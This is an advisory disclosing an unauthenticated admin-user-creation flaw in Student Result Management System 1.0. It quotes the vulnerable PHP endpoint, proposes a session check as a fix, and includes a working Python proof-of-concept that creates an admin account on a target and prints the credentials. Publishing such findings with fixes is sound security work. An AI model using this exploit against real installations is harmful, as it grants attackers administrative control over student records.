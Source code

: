 ### Overview
The Student Result Management System 1.0 contains a critical vulnerability that allows unauthenticated creation of admin users, enabling attackers to gain administrative access without prior credentials. Discovered by Gabriel Felipe of Plaintext Cybersecurity Solutions and tested on Ubuntu 24.04, this flaw affects version 1.0 of the application available on SourceCodester. No CVE has been assigned as of now.


#### Vulnerable PHP code
```php
<?php
chdir('../../');
session_start();
require_once('db/config.php');

if ($_SERVER['REQUEST_METHOD'] === 'POST') {

$fname = ucfirst($_POST['fname']);
$lname = ucfirst($_POST['lname']);
$email = $_POST['email'];
$gender = $_POST['gender'];
$role = '1';
$pass = password_hash($_POST['password'], PASSWORD_DEFAULT);
$status = '1';

try {
$conn = new PDO('mysql:host='.DBHost.';dbname='.DBName.';charset='.DBCharset.';collation='.DBCollation.';prefix='.DBPrefix.'', DBUser, DBPass);
$conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

$stmt = $conn->prepare("SELECT email FROM tbl_staff WHERE email = ? UNION SELECT email FROM tbl_students WHERE email = ?");
$stmt->execute([$email, $email]);
$result = $stmt->fetchAll();
```


#### Suggessted fix
```php
// AUTH CHECK - Only allow logged-in users with a privileged level of acess
if (!isset($_SESSION['id']) || !isset($_SESSION['level']) || $_SESSION['level'] != '0') {
    $_SESSION['reply'] = array(array("error", "Unauthorized access."));
    header("location:../");
    exit;
}
```

```python
#!/usr/bin/python3
import argparse
import requests
import random
import string
from threading import Thread

'''Proxy SetUp'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()


def create_user(target):
    url = 'http://' + target + '/srms/admin/core/new_user'
    user_string = ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(3))
    username = 'admin_' + user_string + '@watskip.local'
    password = 'Password123!' + user_string
    data = {
        'fnmae': 'Admin_' + user_string,
        'lname': 'new' + user_string,
        'gender': 'Male',
        'email': username,
        'password': password
    }
    response = requests.post(url, data=data, proxies=proxies)
    if response.status_code == 200:
        print('[+] Success.')
        return username, password
    else:
        print('User not created.')
        exit(1)


def parse_args():
    parser = argparse.ArgumentParser(description='SRMS - PoC Create an admin user.')
    parser.add_argument('-t', '--target', help='Target IP address or hostname', required=True)
    return parser.parse_args()

def main():
    args = parse_args()
    print(f"Target: {args.target}")
    print('You can log in with the following credentials:', create_user(args.target))

if __name__ == '__main__':
    main()

```    
